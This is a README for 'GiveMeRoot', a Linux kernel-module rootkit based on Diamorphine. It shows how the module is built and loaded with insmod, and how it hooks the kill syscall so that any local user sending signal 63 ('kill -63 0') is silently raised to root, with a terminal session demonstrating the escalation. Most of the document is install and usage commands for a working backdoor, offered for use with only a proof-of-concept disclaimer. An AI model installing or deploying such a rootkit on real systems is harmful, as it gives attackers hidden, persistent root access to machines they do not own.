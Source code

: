 # GiveMeRoot
Simple LKM rootkit based on [Diamorphine](https://github.com/m0nad/Diamorphine).

# Environment tested
 - Debian 9
 - Kernel 4.9.0-8-amd64

# How it works
Basically the rootkit hooks the syscall kill, and whenever it receives a signal 63, the process is changed to run with root permissions.

# Install
```bash
root@lkm:~/# git clone https://github.com/mthbernardes/givemeroot.git
root@lkm:~/# cd givemeroot
root@lkm:~/givemeroot# make
make -C /lib/modules/4.9.0-8-amd64/build M=/root/givemeroot modules
make[1]: Entering directory '/usr/src/linux-headers-4.9.0-8-amd64'
  Building modules, stage 2.
  MODPOST 1 modules
make[1]: Leaving directory '/usr/src/linux-headers-4.9.0-8-amd64'
root@lkm:~/givemeroot# insmod givemeroot.ko 
```

# Usage
```bash
nuvm@lkm:~$ id
uid=1001(nuvm) gid=1001(nuvm) groups=1001(nuvm),100(users)
nuvm@lkm:~$ kill -63 0
nuvm@lkm:~$ id
uid=0(root) gid=0(root) groups=0(root),100(users),1001(nuvm)

```

# Disclaimer
Using this module might cause severe damage to your system, it was created as a proof of concept and should never be used on a production system!

By using this software the person in question agrees that they will use any of software in question in an ethical (non-malicious) way and agrees that the developer(s) are NOT held responsible for any damage caused by the use and or abuse of this software.

Misuse of any software from this website may result in criminal charges brought against the person in question depending on the country or state of residence which can result in probation, fines up or prison sentences up to 20 years in federal prison.
